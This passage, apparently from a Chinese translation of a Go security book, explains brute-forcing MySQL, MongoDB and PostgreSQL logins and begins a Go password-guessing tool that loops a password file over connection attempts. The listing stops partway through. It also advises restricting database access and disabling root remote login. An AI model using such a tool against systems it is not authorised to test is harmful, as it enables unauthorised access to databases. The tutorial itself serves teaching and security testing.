 # Brute forcing database login

数据库登录可以像其他方法一样自动和强制执行。在前面的暴力示例中，大多数代码都是相同的。应用程序之间的主要区别在于实际测试身份验证的功能。这些代码片段将简单地演示如何登录到各种数据库，而不是再次重复所有这些代码。修改以前的暴力脚本，以测试其中一个，而不是 SSH 或 HTTP 方法。

为了防止出现这种情况，请将对数据库的访问限制为仅需要它的计算机，并禁用 root 远程登录。

Go 在标准库中不提供任何数据库驱动程序，只提供接口。因此，所有这些数据库示例都需要来自 GitHub 的第三方包，以及要连接到的正在运行的数据库实例。本书不介绍如何安装和配置这些数据库服务。可以使用`go get`命令安装这些软件包：

*   MySQL:[https://github.com/go-sql-driver/mysql](https://github.com/go-sql-driver/mysql)
*   MongoDB:[https://github.com/go-mgo/mgo](https://github.com/go-mgo/mgo)
*   PostgreSQL:[https://github.com/lib/pq](https://github.com/lib/pq)

这个示例结合了所有三个数据库库，并提供了一个可以强制 MySQL、MongoDB 或 PostgreSQL 的工具。数据库类型与用户名、主机、密码文件和数据库名称一起指定为命令行参数之一。MongoDB 和 MySQL 不需要像 PostgreSQL 这样的数据库名称，所以当不使用`postgres`选项时，它是可选的。创建一个名为`loginFunc`的特殊变量来存储与指定数据库类型关联的登录函数。这是我们第一次使用变量来保存函数。然后使用登录功能执行暴力攻击：

```go
package main 

import ( 
   "database/sql" 
   "log" 
   "time" 

   // Underscore means only import for 
   // the initialization effects. 
   // Without it, Go will throw an 
   // unused import error since the mysql+postgres 
   // import only registers a database driver 
   // and we use the generic sql.Open() 
   "bufio" 
   "fmt" 
   _ "github.com/go-sql-driver/mysql" 
   _ "github.com/lib/pq" 
   "gopkg.in/mgo.v2" 
   "os" 
) 

// Define these at the package level since they don't change, 
// so we don't have to pass them around between functions 
var ( 
   username string 
   // Note that some databases like MySQL and Mongo 
   // let you connect without specifying a database name 
   // and the value will be omitted when possible 
   dbName        string 
   host          string 
   dbType        string 
   passwordFile  string 
   loginFunc     func(string) 
   doneChannel   chan bool 
   activeThreads = 0 
   maxThreads    = 10 
) 

func loginPostgres(password string) { 
   // Create the database connection string 
   // postgres://username:password@host/database 
   connStr := "postgres://" 
   connStr += username + ":" + password 
   connStr += "@" + host + "/" + dbName 

   // Open does not create database connection, it waits until 
```